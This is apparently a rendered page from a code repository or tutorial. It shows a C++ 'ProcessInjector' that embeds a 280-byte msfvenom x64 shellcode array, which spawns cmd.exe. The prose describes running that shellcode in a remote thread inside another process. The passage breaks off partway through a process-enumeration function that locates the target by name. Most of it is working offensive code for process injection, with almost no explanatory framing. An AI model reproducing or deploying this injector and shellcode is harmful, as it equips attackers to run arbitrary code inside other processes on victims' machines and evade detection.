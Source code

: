 Next, we execute the ProcessInjector to create a remote thread that runs shellcode to spawn `cmd.exe` as a child process:
```cpp
#include <stdio.h>
#include <windows.h>
#include <tlhelp32.h>

// 280 bytes
// EXITFUNC=thread
// msfvenom -p windows/x64/exec CMD=cmd.exe -f raw EXITFUNC=thread
unsigned char pPayload[] = {
	0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 0x00, 0x00, 0x00, 
	0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xD2, 
	0x65, 0x48, 0x8B, 0x52, 0x60, 0x48, 0x8B, 0x52, 0x18, 0x48, 
	0x8B, 0x52, 0x20, 0x48, 0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7, 
	0x4A, 0x4A, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x3C, 
	0x61, 0x7C, 0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 
	0x01, 0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 
	0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 0x88, 
	0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 0x48, 0x01, 
	0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44, 0x8B, 0x40, 0x20, 0x49, 
	0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 0xC9, 0x41, 0x8B, 0x34, 
	0x88, 0x48, 0x01, 0xD6, 0x4D, 0x31, 0xC9, 0x48, 0x31, 0xC0, 
	0xAC, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 
	0x75, 0xF1, 0x4C, 0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 
	0x75, 0xD8, 0x58, 0x44, 0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 
	0x66, 0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,
	0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 0x41, 
	0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 0x41, 0x59, 
	0x41, 0x5A, 0x48, 0x83, 0xEC, 0x20, 0x41, 0x52, 0xFF, 0xE0,
	0x58, 0x41, 0x59, 0x5A, 0x48, 0x8B, 0x12, 0xE9, 0x57, 0xFF, 
	0xFF, 0xFF, 0x5D, 0x48, 0xBA, 0x01, 0x00, 0x00, 0x00, 0x00, 
	0x00, 0x00, 0x00, 0x48, 0x8D, 0x8D, 0x01, 0x01, 0x00, 0x00, 
	0x41, 0xBA, 0x31, 0x8B, 0x6F, 0x87, 0xFF, 0xD5, 0xBB, 0xE0, 
	0x1D, 0x2A, 0x0A, 0x41, 0xBA, 0xA6, 0x95, 0xBD, 0x9D, 0xFF, 
	0xD5, 0x48, 0x83, 0xC4, 0x28, 0x3C, 0x06, 0x7C, 0x0A, 0x80, 
	0xFB, 0xE0, 0x75, 0x05, 0xBB, 0x47, 0x13, 0x72, 0x6F, 0x6A, 
	0x00, 0x59, 0x41, 0x89, 0xDA, 0xFF, 0xD5, 0x63, 0x6D, 0x64, 
	0x2E, 0x65, 0x78, 0x65, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00
};

bool ProcessEnum(const wchar_t* wcProcess, DWORD *ProcId) {

	HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	if (hSnapshot == INVALID_HANDLE_VALUE) {
		printf("\n[ERROR GETTING \"hSnapshot\"] -> %d\n", GetLastError());
		return false;
	}

	PROCESSENTRY32W ProcEntry = { 0 };

	ProcEntry.dwSize = sizeof(PROCESSENTRY32W);

	if (!Process32FirstW(hSnapshot, &ProcEntry)) {
		printf("\n[ERROR at \"Process32FirstW\"] -> %d\n", GetLastError());
		return false;
	}

	do {

		if (lstrcmpW(ProcEntry.szExeFile, wcProcess) == 0) {
			wprintf(L"\n[+] Process found -> \"%s\"\n\t\\__PID -> %d\n", ProcEntry.szExeFile, ProcEntry.th32ProcessID);
```